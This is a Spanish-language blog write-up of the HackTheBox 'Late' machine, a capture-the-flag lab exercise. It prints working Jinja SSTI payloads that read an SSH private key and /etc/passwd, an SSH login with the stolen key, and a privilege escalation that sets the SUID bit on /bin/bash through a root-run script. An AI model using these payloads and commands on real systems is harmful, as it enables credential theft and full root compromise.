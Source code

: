 ```yaml
---
layout:   post
title:    "Write Up Late."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Upload,SSTI,SSH,Hydra,Write-Up-Machine,Starting-Point,eWPT,OSWE,OSCP]  
---
```

![list](/assets/img/late/late.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.156 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80 -sV -sC 10.10.11.156 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb con esto no conseguimos nada.

![list](/assets/img/late/Arch-2022-06-15-16-58-15.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `ctrl + u` podemos encontrar el dominio `images.late.htb` en cual ingresamos 

al `/etc/host` y recargamos.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-21-31.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `gobuster` podemos encontrar el dominio `images.late.htb` en cual ingresamos 

al `/etc/host` y recargamos.

![list](/assets/img/late/Arch-2022-06-15-16-33-26.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En este dominio vemos que podemos subir archivos pero tambien algo interesante 

`with Flask` y muchas de las veces es vulnerable a `Server Side Template Injection`.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-56-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con libreOfice subimos una imagen con "{{4+4}}". 

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-06-03.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como la respuesta es `16` corrovoramos que si es vulnerable a SSTI. 

Sabiendo esto usaremos un payload de  [PayloadsAllTheThings] crearemos una imagen que nos 

permita ejecutar comandos tal para ver los `usuarios` y la `id_rsa`.

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-48-23.png){:.lead width="800" height="100" loading="lazy"}

```default
{{ cycler.__init__.__globals__.os.popen('id; cat ~/.ssh/id_rsa').read() }}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta es la id_rsa. 

Tenemos su id_rsa, ahora consigamos elusuario para entonces conectarnos atraves de ssh.

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-18-52.png){:.lead width="800" height="100" loading="lazy"}

```defaul
{{ cycler.__init__.__globals__.os.popen('id; cat /etc/passwd').read() }}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta son los usuarios.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, podemos ver con pspy que root ejecuta un 

archivo llamado `ssh-alert.sh` cada que iniciamos sesión por ssh.


```bash
echo "chmod u+s /bin/bash" >> ssh-alert.sh
```
{:.note}
Inyectamos1 permisos u+s al archivo ssh-alert.sh y nos salimos ppero nos volvemos a 

conectarpor ssh.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


![list](/assets/img/late/Parrot-SO3-2022-08-01-17-11-25.png){:.lead width="800" height="100" loading="lazy"}


Para este punto solo debemos hacer `bash -p` y buscar las flag del user y la de root que estanen los 

escritoriosde svc_acc y de /root respectivamente.

***
```bash
🎉 Felicitaciones ya has comprometido Late de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}--->